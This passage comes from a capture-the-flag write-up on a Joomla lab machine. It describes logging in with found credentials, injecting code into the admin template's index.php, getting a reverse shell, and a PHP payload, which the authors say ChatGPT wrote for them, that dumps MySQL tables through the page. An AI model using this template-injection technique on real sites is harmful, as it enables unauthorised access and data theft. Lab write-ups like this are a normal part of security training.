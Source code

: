 We found credentials for a user named `lewis`, and some details on the MySQL DB used! Lets try to login to Admin Dashboard we found:

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/2b34efb9-a1ec-426b-8813-83a60e47a170)

# Get Foothold
We explored all the pages and functunalities on the website, but couldn't find anything that seemed relevant, so we tried our luck again on Google. We found a blog post on [Joomla Security](https://medium.com/@aswinchandran274/joomla-security-insights-rce-f521b762acba) that details some usefull tricks we can use. In step 11, it showed how an attacker can use a page editing function that this web app has inorder to inject a payload! We found the page editing function by: `System --> Administrator Templates --> Atum Details and Files`. We have a few pages we can edit the contents of, but only one of them actually exists on this app - `index.php`:

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/97246d81-c601-4dee-b245-d62a8ce8a290)

Here is where we wasted a LOT of time - we injected a payload that gets us a reverse shell as `www-data`, and tried to get to the user from there, but couldn't find anything that worked. It's important to remember that we can use this injection point to just to get a reverse shell, but also to get more information. Maybe we can use the MySQL credentials we found to read the contents of some interesting tables, and reflect their contents onto the page?

We asked ChatGPT to write us a PHP script that would do exactly that:
```php
<?php

$host = '127.0.0.1';
$port = '3306';
$username = 'lewis';
$password = '<PASSWORD>';
$database = 'joomla';

// Create a MySQL connection
$mysqli = new mysqli($host, $username, $password, $database, $port);

// Check connection
if ($mysqli->connect_error) {
    die("Connection failed: " . $mysqli->connect_error);
}

// Execute a query
$query = '<SQL QUERY>';
$result = $mysqli->query($query);

// Check for errors
if (!$result) {
    die("Query failed: " . $mysqli->error);
}

// Print the results
while ($row = $result->fetch_assoc()) {
    print_r($row);
    echo PHP_EOL;
}

// Close the MySQL connection
$mysqli->close();

?>
```

